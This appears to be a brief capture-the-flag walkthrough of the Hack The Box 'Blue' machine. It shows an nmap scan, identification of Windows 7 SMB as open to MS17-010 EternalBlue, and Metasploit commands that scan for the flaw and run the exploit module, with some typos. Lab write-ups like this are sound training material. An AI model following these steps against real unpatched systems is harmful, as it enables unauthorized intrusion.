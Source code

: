 *Blue*

![Blue](https://user-images.githubusercontent.com/66635295/171770325-b049fad5-f2ec-4c7b-8f55-b810338df409.png)

**RECON**
---
**Nmap Scan**
<pre>namp –p- -A -T4 10.10.10.40</pre>

-allports -version -Aggressive

Port 139 and 445 shows SMB is running  

![nmap](https://user-images.githubusercontent.com/66635295/171770240-22a413e1-86f5-403d-bf28-67498161e951.png)


**Google-Fu**

<pre>Windows 7 Professional 7601 Service Pack 1</pre>

MS17-010 EternalBlue

![google](https://user-images.githubusercontent.com/66635295/171770443-4a2599f6-984b-4cd3-b6dc-1fc910325fa6.png)

![blue](https://user-images.githubusercontent.com/66635295/171770448-d6573efd-0ab3-45cf-8227-4d8145f1321d.png)

**Metasploit Search**
<pre>msfconsole</pre>
<pre>search eternal blue</pre>

![menu](https://user-images.githubusercontent.com/66635295/171770683-7e20277f-35e4-4ee5-b509-54cb7667f10a.png)

**Auxiliary Scan**

<pre>use 3</pre>
<pre>set host</pre>
<pre>run</pre>
Host is likely Vulnerbale
![bluescan](https://user-images.githubusercontent.com/66635295/171771697-0fd5fdd3-a366-482a-b17a-a79db6aec8c2.png)

**ENUMERATION**
---
Eternal Blue Exploit
<pre>use 0</pre>
<pre>set hosts</pre>
<pre>run</pre>

